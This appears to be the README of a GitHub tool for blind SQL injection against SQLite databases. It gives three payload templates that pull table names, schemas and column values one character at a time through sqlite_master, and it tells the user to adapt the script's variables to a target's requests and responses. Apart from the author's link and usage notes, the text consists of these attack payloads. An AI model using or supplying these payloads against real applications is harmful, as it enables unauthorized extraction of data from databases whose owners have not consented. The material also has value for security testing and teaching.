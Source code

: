__________SQLiteBLINDInjection__________
Blind SQL Injection For SQLite Databases

https://github.com/aykutcanustun
Author: aykutcanustun

How to set queries:
__________________________________________________________________________________________________________
To retrieve table names from database, use this one:
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} --

To retrieve table schema, use this one:
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

To retrieve values inside column, use this one:
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

Replace $TABLE_NAME, $COLUMN_NAME with data that you retrieved from privious one!
___________________________________________________________________________________________________________

To use the script, you have to set varibles according to your request's headers, responses etc.
I added comment to these lines!
